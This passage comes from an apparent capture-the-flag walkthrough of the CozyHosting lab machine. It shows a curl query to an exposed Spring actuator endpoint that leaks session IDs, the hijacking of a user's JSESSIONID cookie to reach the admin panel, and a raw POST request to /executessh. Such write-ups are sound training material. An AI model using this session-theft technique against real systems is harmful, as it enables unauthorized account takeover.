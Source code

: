If try and fail to log in a few times, more sessions show up:

```

oxdf@hacky$ curl -s http://cozyhosting.htb/actuator/sessions | jq .
{
  "EEE571008BF31ADB2E904F4E8CBF5ABB": "UNAUTHORIZED",
  "E1CE43B04CC6C958A7496877E331256D": "UNAUTHORIZED",
  "2926B07C6C6B8CB0B92A5AE5DF5AE2B6": "UNAUTHORIZED",
  "B3C02C5C13A99CCEFC3AF469D28374C9": "UNAUTHORIZED",
  "C987ACE5C53875AE151372328A544FAF": "kanderson"
}

```

## Shell as app

### Session Stealing

I’ll go into Firefox dev tools, under Storage -> Cookies and replace the value for `JSESSIONID` with the kandersons user’s cookie.

![image-20240227102346639](/img/image-20240227102346639.png)

Now when I refresh `/login` or visit `/admin`, there’s a panel and I’m authenticated as K. Anderson:

![image-20240227102421433](/img/image-20240227102421433.png)

### Automatic Patching

The interesting part of the page is the form at the bottom. If I submit my IP as the hostname and 0xdf as the username, it returns an error after short wait:

![image-20240227102851972](/img/image-20240227102851972.png)

This is a POST request to `/executessh` (noticed above).

```

POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin?error=ssh:%20connect%20to%20host%2010.10.14.6%20port%2022:%20Connection%20timed%20out
Cookie: JSESSIONID=C987ACE5C53875AE151372328A544FAF
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

host=10.10.14.6&username=0xdf

```
